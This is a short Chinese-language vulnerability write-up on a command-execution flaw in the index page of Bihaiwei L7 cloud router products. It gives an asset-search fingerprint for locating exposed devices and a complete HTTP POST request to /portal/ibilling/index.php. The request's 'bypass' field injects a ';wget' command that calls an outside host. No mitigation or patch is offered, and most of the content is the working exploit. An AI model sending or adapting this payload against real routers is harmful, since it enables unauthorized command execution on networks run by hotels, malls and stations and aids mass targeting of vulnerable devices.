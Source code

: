 # 碧海威 L7多款产品index存在命令执行漏洞

# 一、漏洞简介
碧海威L7网络产品是为酒店、度假村、商场和车站等商用无线管理者独身订造的专用网络设备。设备具备路由、防火墙、流控、无线AC控制器、微信认证等多项功能。碧海威 L7多款产品index存在命令执行漏洞

# 二、影响版本
+ 碧海威 L7云路由

# 三、资产测绘
```plain
product="碧海威科技-L7云路由"
```

![1717872509836-9d8192e8-eb1d-418e-b136-d7e256390d0d.png](./img/5VV9Gb23QQkaNIBN/1717872509836-9d8192e8-eb1d-418e-b136-d7e256390d0d-055453.png)

# 四、漏洞复现
```plain
POST /portal/ibilling/index.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36

{"type":5,"version":2,"bypass":";wget sadvlgapra.dgrh3.cn"}
```

![1717873439881-6561c715-975f-49c4-a47f-5a787180f384.png](./img/5VV9Gb23QQkaNIBN/1717873439881-6561c715-975f-49c4-a47f-5a787180f384-400658.png)



> 更新: 2024-06-27 09:15:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ayahigrv4qhbtgph>